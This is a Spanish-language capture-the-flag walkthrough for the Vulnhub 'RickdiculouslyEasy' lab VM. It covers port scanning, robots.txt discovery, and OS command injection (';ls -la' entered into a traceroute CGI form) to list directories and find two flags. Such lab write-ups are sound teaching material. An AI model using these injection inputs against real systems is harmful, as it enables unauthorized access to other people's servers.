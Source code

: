 # CTF: RickdiculouslyEasy



### Vulnhub: https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/
**Total de puntos:** 130

----------------

Descargue la vm y luego de correrla en VirtualBox, lo primero que hice fue hacer un escaneo de todos los puertos y las versiones de sus servicios:
```console
root@localhost: nmap -sV 192.168.56.106 -p- 
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh?
80/tcp    open  http    Apache httpd 2.4.27 ((Fedora))
9090/tcp  open  http    Cockpit web service
13337/tcp open  unknown
22222/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
60000/tcp open  unknown
```
Al tener las versiones lo primero que hice fue buscar con "searchsploit" por vulnerabilidades en cada servicio, pero no se encontro nada importante.
Mi proximo paso fue chequear el puerto 80 y el 9090 ya que el mismo esta catalogado como "web service"

La primer bandera la encontre navegando la siguiente url, es la mas sensilla:

**http://192.168.56.106:9090**

Y ya en el body esta la bandera:

#### FLAG {There is no Zeus, in your face!} - 10 Points

En esa pagina hay un login pero no encontre la manera de romperlo asi que segui al proximo puerto, el 80.

**http://192.168.56.106**

Ahi pude ingresar a un sitio web, el cual revisando el html y las llamadas con el developer tools de firefox no encontre nada.
Mi proximo paso fue intentar ver si hay un robots.txt para ver si tienen listado algun directorio Disallow.
Ingresando a **http://192.168.56.106/robots.txt** encontre lo siguiente:
```
They're Robots Morty! It's ok to shoot them! They're just Robots!

/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*
```

Luego de ver los directorios, ingrese a **/cgi-bin/root_shell.cgi** pero era algo falso, no tenia nada importante ese archivo.
El segundo archivo, **/cgi-bin/tracertool.cgi**, tiene una herramienta para hacer trace a IPs.
Probe ingresando cualquier ip a ver que me devuelve a ver si funciona y correctamente me devolvio algo.
Ingrese 8.8.8.8 y la respuesta fue:
```
traceroute to 8.8.8.8 (8.8.8.8), 30 hops max, 60 byte packets
```
Lo proximo que probe fue hacer un command injection haciendo un **ls**. Puse lo sigueinte en el cuadro de trace

```
;ls -la
```
Y la respuesta fue:
```
drwxr-xr-x. 2 root root  50 Aug 25  2017 .
drwxr-xr-x. 4 root root  33 Aug 22  2017 ..
-rwxr-xr-x. 1 root root 255 Aug 22  2017 root_shell.cgi
-rwxr-xr-x. 1 root root 787 Aug 25  2017 tracertool.cgi
```
Listo, esto se puede explotar de alguna manera, asi que hice que me liste todo un paso atras:
```
;ls -la ../
```
Respuesta:
```
total 4
drwxr-xr-x.  4 root root   33 Aug 22  2017 .
drwxr-xr-x. 22 root root 4096 Aug 21  2017 ..
drwxr-xr-x.  2 root root   50 Aug 25  2017 cgi-bin
drwxr-xr-x.  3 root root   76 Aug 22  2017 html
```
Ahi pude ingresar a la carpeta html y ver que existe un archivo llamado "password"
```
;ls -la ../html
```
Respuesta:
```
total 536
drwxr-xr-x. 3 root root     76 Aug 22  2017 .
drwxr-xr-x. 4 root root     33 Aug 22  2017 ..
-rw-r--r--. 1 root root    326 Aug 22  2017 index.html
-rw-r--r--. 1 root root 539672 Aug 22  2017 morty.png
drwxr-xr-x. 2 root root     44 Aug 23  2017 passwords
-rw-r--r--. 1 root root    126 Aug 22  2017 robots.txt
```
Por ultimo navegue a esa misma ruta y vi que el directorio estaba con el Index habilitado y tenia un archivo llamado FLAG.txt donde encontre la segunda bandera.

**http://192.168.56.106/passwords/**

#### FLAG{Yeah d- just don't do it.} - 10 Points



